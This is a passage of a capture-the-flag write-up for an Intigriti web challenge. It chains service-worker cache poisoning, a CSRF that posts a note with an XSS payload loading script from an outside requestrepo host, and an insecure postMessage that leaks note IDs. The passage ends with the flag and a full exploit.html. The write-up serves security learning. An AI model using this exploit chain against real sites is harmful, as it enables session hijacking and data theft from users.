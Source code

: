 Service workers can be updated by specifyng the `updateViaCache` property in its options.

Then to load a malicious service worker I can just:

register the sw -> poison the cache -> update the sw


**Making a valid service worker - Hoisting**
The response from `/api/track` endpoint contains code using jQuery (`$(document).ready`), and also refers to `window` and `document` global objects, which will **not be defined** in the global scope of the Service Worker:
```js
$(document).ready(function() {
    const userDetails = {
        ip: "${userIp}",
        type: "client",
        timestamp: new Date().toISOString(),
        ipDetails: {}
    };
```
To avoid this problem, I can use [hoisting](https://developer.mozilla.org/en-US/docs/Glossary/Hoisting). In JavaScript, variables and functions can be used before declaration. So I can just define `$` and `document` anywhere in the script.

**Flag**
`INTIGRITI{s3rv1ce_w0rk3rs_4re_p0w3rful}`


## Full exploit

`exploit.html` - csrf + leaking the noteid with the insecure postmessage
```html
<button onclick="csrf();" style="width: 100vw; height: 100vh">send</button>

<script>
    const chall_url = "https://challenge-0325.intigriti.io";
    let noteId = null;
    const payload = ``
    const xss = `<script src='https://cc426f7n.requestrepo.com/expl.js'>\x3cscript>`;

    function csrf() {
        fetch(`${chall_url}/api/post`, {
            method: "POST",
            mode: "no-cors",
            credentials: "include",
            body: new Blob([`{"title": "exploit","content": ["${xss}"],"use_password": "false"}`], { type: "" }),
        });
        setTimeout(() => {
            win = window.open(`${chall_url}/protected-note`, 'x');
            setTimeout(() => {
                win.postMessage({type:"submitPassword",password:""}, "*");
            }, 500);
        }, 500);
    }


    window.addEventListener('message', e => {
        console.log(e.data);
        if (e.data.noteId) {
            noteId = e.data.noteId;
            open(`${chall_url}/note/${e.data.noteId}`);
        }
    });
</script>

```
